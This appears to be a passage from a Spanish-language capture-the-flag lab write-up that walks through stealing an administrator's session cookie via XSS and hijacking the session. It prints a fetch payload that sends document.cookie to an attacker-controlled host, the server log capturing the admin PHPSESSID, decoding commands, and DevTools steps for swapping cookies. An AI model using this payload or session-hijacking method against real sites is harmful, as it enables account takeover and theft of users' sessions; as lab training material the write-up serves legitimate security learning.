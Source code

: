 ```js
// pwned.js - exfiltra cookies mediante fetch (asíncrono)
fetch('http://<IP_Atacante>/log?c=' + encodeURIComponent(document.cookie), {method: 'GET', mode: 'no-cors'});
```

Volvemos a enviar la carga XSS y esperamos con nuestro servidor abierto de python la solicitud del administrador.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.113 - - [28/Oct/2025 11:57:25] "GET /pwned.js HTTP/1.1" 200 -
10.10.10.113 - - [28/Oct/2025 11:57:25] "GET /?cookie=PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 200 -
```

**Explicación:** hemos obtenido las cookies de sesión, aunque están URL-encoded podemos ver al final que pertenecen a un usuario 'admin'.

**Acción:** decodificamos las cookies, y probamos el secuestro de sesión.

[Ver nodejs](../../../../Lenguajes/JavaScript/Node.js.md)

```bash
nodejs    # abrimos sesión interactiva de JavaScript con la herramienta Node
>> decodeURIComponent('PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin')
```

```bash
'PHPSESSID=8aalfb11gdv6auah3hbakbjsb7; LANG=EN_US; SINCE=1761649044; LIMIT=10; DOMAIN=admin'
```

**Nota:** alternativa para aplicar el decode.

Con python: 
```python
python3 -c "import urllib.parse; print(urllib.parse.unquote('PHPSESSID=8aalfb11gdv6auah3hbakbjsb7;%20LANG=EN_US;%20SINCE=1761649044;%20LIMIT=10;%20DOMAIN=admin'))"
```

**Acción:** teniendo estos valores de cookie, podemos proceder al secuestro de sesión. Vamos al navegador, abrimos DevTools `ctrl+shift+i`. Vamos a `Storage/Cookies`. Aquí nos encontramos pares `key:value`, lo que hacemos es cambiar el valor de la key `PHPSESSID` que tiene el nuestro sin privilegios, por el obtenido. Luego añadimos con el `+` que se ve en la imagen (arriba a la derecha), 4 keys más, para añadir sus valores (damos a `+` 4 veces y modificamos el nombres de las keys y añadimos los valores). Con todo configurado, simplemente refrescamos la página, le damos a actualizar o `ctrl+r`.

![Captura](./Imágenes/web_3.png)

**Resultado:** confirmamos el secuestro de sesión, ahora estamos logueados como el usuario 'admin'. 

![Captura](./Imágenes/web_4.png)

**Acción:** dado que en este punto no tenemos muchos campos de opción, lo correcto para no quedarse estancado es enumerar más. Para ello esta vez usaremos [WFUZZ](../../../../Herramientas/Enumeración%20Web/Wfuzz/Wfuzz.md) para encontrar subdominios. `-c --> aplicar color` - `--hc --> omitir código de estado`
